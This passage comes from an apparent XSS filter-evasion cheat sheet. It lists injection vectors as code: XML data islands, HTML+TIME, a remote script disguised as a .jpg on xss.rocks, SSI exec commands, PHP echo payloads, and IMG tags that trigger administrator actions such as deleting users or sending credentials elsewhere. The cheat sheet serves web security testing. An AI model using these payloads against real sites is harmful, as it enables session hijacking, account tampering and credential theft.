 This is the same as above but instead referrs to a locally hosted (must be on the same server) XML file that contains your cross site scripting vector. You can see the result here:

    <XML SRC="xsstest.xml" ID=I></XML>  
    <SPAN DATASRC=#I DATAFLD=C DATAFORMATAS=HTML></SPAN>

## HTML+TIME in XML

This is how Grey Magic hacked Hotmail and Yahoo\!. This only works in Internet Explorer and Netscape 8.1 in IE rendering engine mode and remember that you need to be between HTML and BODY tags for this to work:

    <HTML><BODY>
    <?xml:namespace prefix="t" ns="urn:schemas-microsoft-com:time">
    <?import namespace="t" implementation="#default#time2">
    <t:set attributeName="innerHTML" to="XSS<SCRIPT DEFER>alert("XSS")</SCRIPT>">
    </BODY></HTML>

## Assuming you can only fit in a few characters and it filters against `.js`

You can rename your JavaScript file to an image as an XSS vector:

    <SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>

## SSI (Server Side Includes)

This requires SSI to be installed on the server to use this XSS vector. I probably don't need to mention this, but if you can run commands on the server there are no doubt much more serious issues:

    <!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://xss.rocks/xss.js></SCRIPT>'"-->

## PHP

Requires PHP to be installed on the server to use this XSS vector. Again, if you can run any scripts remotely like this, there are probably much more dire issues:

    <? echo('<SCR)';
    echo('IPT>alert("XSS")</SCRIPT>'); ?>

## IMG Embedded commands

This works when the webpage where this is injected (like a web-board) is behind password protection and that password protection works with other commands on the same domain. This can be used to delete users, add users (if the user who visits the page is an administrator), send credentials elsewhere, etc.... This is one of the lesser used but more useful XSS vectors:

    <IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">

### IMG Embedded commands part II
